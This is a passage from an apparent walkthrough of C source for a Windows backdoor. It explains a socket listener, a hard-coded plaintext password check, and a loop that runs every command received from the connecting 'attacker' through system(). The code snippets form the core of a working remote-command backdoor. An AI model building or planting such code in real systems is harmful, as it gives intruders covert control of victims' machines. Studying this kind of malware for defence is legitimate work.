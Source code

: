 ```c
        continue;
    }
```

The `listen(sockfd, 5)` function makes the socket listen for incoming connections. The **5** indicates the maximum length of the queue for pending connections.
The accept function waits for a connection request, returning a new socket (newsockfd) to communicate with the client.
The buffer is cleared, and data is received from the client into buffer. If an error occurs while reading, it reports the error and continues to listen for new connections.

```c
    // Authenticate with password
    if (strcmp(buffer, correct_password) == 0) {
        password = 1;
        send(newsockfd, "Authenticated!\n", 15, 0);
    } else {
        send(newsockfd, "Incorrect password!\n", 20, 0);
        closesocket(newsockfd);
        continue;
    }
```

The server checks if the received command matches the expected password. If the password is correct, the server sets password to 1 and sends a success message.
If the password is incorrect, it sends an error message and closes the connection, prompting the attacker to retry.

This password is stored in plaintext in the top of the code.

```c
char *correct_password = "who_leaves_their_door_open?";
```

```c
    while (password) {
        memset(buffer, 0, 256);
        n = recv(newsockfd, buffer, 255, 0);
        if (n == SOCKET_ERROR) {
            printf("ERROR reading from socket\n");
            closesocket(newsockfd);
            break;
        }

        if (strncmp("shutdown", buffer, 8) == 0) {
            send(newsockfd, "Shutting down.\n", 15, 0);
            password = 0;
            closesocket(newsockfd);
            break;
        }

        system(buffer);
        send(newsockfd, "Command executed.\n", 18, 0);
    }
}
```

